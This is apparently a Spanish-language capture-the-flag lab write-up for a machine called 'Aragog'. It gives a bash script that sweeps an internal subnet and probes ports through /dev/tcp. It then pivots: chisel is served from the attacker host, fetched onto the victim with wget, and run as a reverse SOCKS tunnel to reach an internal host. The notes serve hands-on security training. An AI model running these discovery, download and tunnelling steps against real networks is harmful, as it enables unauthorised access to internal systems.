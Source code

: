#Aragog
[[192.168.1.23 (Aragog)]]
- Pwned

En el directorio `/tmp` creamos un fichero llamo `hostDiscovery.sh` que nos permitirá hacer un reconocimiento de red sobre esa interfaz para encontrar host activos:
El script lo que hace directamente es buscar sobre las IP que respondan a una llamada y tengan puertos activos.
```shell
#!/bin/bash

# Función para escanear puertos de un host activo
scan_host() {
    local host=$1
    for port in 21 22 80 443 445 8080; do
        # Intenta conectarse al puerto con timeout
        timeout 1 bash -c "echo > /dev/tcp/$host/$port" &>/dev/null && \
            echo "[+] Host $host - PORT $port - OPEN"
    done
}

# Capturar Ctrl+C para salir limpio
trap "echo -e '\n[*] Escaneo interrumpido'; exit" SIGINT

for i in $(seq 1 254); do
    host="10.10.0.$i"
    # Comprobar si el host está activo
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "[*] Host $host activo. Escaneando puertos..."
        scan_host $host
    fi
done
```

Lo ejecutamos y nos dará la otra ip que se ve desde nuestra interfaz de red [[10.10.0.4 (Aragog)]]
Vemos que hay una IP del otro lado que es la `10.10.0.5`

Usaremos `https://github.com/jpillora/chisel`para crear un túnel de tipo socks para llegar a los puertos que hay en los puertos de la red interna que desde nuestra maquina atacante no llegamos a ver.

Lo descargamos y lo descomprimimos y le damos permisos de ejecución.
Lo transferimos a la maquina victima a través de Python
`python3 -m http.server 80`

Y en la maquina victima:
`wget http://192.168.1.19/chisel`

Ejecutamos chisel en la maquina atacante como servidor para que las maquinas se conecten a el
`./chisel server --reverse -p 1234`

Ahora en la maquina victima lo ejecutamos como cliente en la maquina victima:
`./chisel client 192.168.1.19:1234 R:socks`

Lo que estamos haciendo con el parámetro `R:socks` es abrirte el puerto `1080` haciéndote un túnel directo a la maquina `10.10.0.5`




